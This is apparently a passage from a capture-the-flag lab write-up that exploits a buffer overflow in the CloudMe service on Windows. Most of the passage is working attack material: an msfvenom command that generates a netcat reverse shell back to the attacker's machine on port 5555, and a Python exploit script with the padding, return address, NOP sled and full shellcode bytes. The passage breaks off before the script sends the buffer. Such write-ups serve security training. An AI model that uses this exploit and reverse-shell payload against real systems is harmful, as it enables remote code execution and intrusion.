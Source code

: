 At this  point, on the local attacking machine I have to run the final exploit against the `CloudmMe` service. I only need to create a custom payload and add it to the exploit.

I want to  have a reverse connection coming back to my machine after the exploit is executed:

{{< highlight html >}}
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.18 5555 -e cmd.exe' -b '\x00\x0A\x0D' -f python
{{< /highlight >}}
Where:
- `CMD` is the command I want to execute after the exploit, which is a netcat reverse shell on port `5555` of my machine

I paste the command result in the exploit. At this point I only have to set up a netcat listener on port `5555` and launch the exploit, which will look like:

{{< highlight html >}}
import socket
import sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30                                                                                                                                                     

#msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.18 5555 -e cmd.exe' -b '\x00\x0A\x0D' -f python python                                                                                                     
payload =  b""                                                                                                                                                                
payload += b"\xdb\xca\xd9\x74\x24\xf4\xb8\x84\x4f\x0f\xa5\x5b"                                                                                                                
payload += b"\x29\xc9\xb1\x3e\x83\xc3\x04\x31\x43\x15\x03\x43"
payload += b"\x15\x66\xba\xf3\x4d\xe4\x45\x0c\x8e\x88\xcc\xe9"
payload += b"\xbf\x88\xab\x7a\xef\x38\xbf\x2f\x1c\xb3\xed\xdb"
payload += b"\x97\xb1\x39\xeb\x10\x7f\x1c\xc2\xa1\xd3\x5c\x45"
payload += b"\x22\x29\xb1\xa5\x1b\xe2\xc4\xa4\x5c\x1e\x24\xf4"
payload += b"\x35\x55\x9b\xe9\x32\x23\x20\x81\x09\xa2\x20\x76"
payload += b"\xd9\xc5\x01\x29\x51\x9c\x81\xcb\xb6\x95\x8b\xd3"
payload += b"\xdb\x93\x42\x6f\x2f\x68\x55\xb9\x61\x91\xfa\x84"
payload += b"\x4d\x60\x02\xc0\x6a\x9a\x71\x38\x89\x27\x82\xff"
payload += b"\xf3\xf3\x07\xe4\x54\x70\xbf\xc0\x65\x55\x26\x82"
payload += b"\x6a\x12\x2c\xcc\x6e\xa5\xe1\x66\x8a\x2e\x04\xa9"
payload += b"\x1a\x74\x23\x6d\x46\x2f\x4a\x34\x22\x9e\x73\x26"
payload += b"\x8d\x7f\xd6\x2c\x20\x94\x6b\x6f\x2f\x6b\xf9\x15"
payload += b"\x1d\x6b\x01\x16\x32\x03\x30\x9d\xdd\x54\xcd\x74"
payload += b"\x9a\xaa\x87\xd5\x8b\x22\x4e\x8c\x89\x2f\x71\x7a"
payload += b"\xcd\x49\xf2\x8f\xae\xae\xea\xe5\xab\xeb\xac\x16"
payload += b"\xc6\x64\x59\x19\x75\x85\x48\x5a\x43\x25\x0b\x3c"
payload += b"\xde\xa5\x9b\xe2\x48\x31\x38\x74\xea\xca\x9c\xed"
payload += b"\x95\x41\x41\x87\x15\xf5\x16\x06\xb2\x59\x87\xab"
payload += b"\x14\x04\x2f\x49\x49\xeb\xaa\xb1\xea\x9e\x50\x9c"
payload += b"\x89\x18\xfc\xc0\x60\xe8\xd0\x31\xb3\x26\x1c\x06"
payload += b"\x9d\x07\x66\x46\xd4\x52\xa3\xb3\x16"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
